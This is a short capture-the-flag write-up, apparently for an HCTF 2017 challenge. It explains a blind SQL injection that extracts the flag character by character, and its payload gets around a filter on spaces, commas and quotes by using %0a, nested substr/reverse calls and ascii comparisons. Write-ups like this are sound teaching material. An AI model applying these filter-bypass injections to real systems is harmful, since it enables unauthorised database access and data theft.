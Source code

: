 Based on following observations:
- `http://sqls.2017.hctf.io/index/index.php?id=1/2` -> `Id error`
- `http://sqls.2017.hctf.io/index/index.php?id=1/1` -> `Alice`
- `http://sqls.2017.hctf.io/index/index.php?id=4/4` -> `We only have 3 users`
- Space, comma, quotes, keywords (or, and, limit, etc.) are filtered. 
- There was two rows with duplicated `id` (`id=1`) in `flag` table.

We can construct the injection as this:
    ```
    http://sqls.2017.hctf.io/index/index.php?id=1/(1/        (select%0a[GUESS]=ascii(substr(reverse(substr(flag%0afrom%0a[OFFSET]))%0afrom%0a[OFFSET_REV]))%0afrom%0aflag%0awhere%0alength(flag)=41))
        ```

Major technique used:
- Replace space with `%0a`
- Use `substr(reverse(substr(flag from 1)) from 40)` to avoid using comma.
- Use `ascii` or hex value to bypass quotes detection

We first used hex comparation for characters guessing, but later found that we need to correct the lower/upper case. Then we use ascii equaling test to get exact value. Actually only the second was needed.
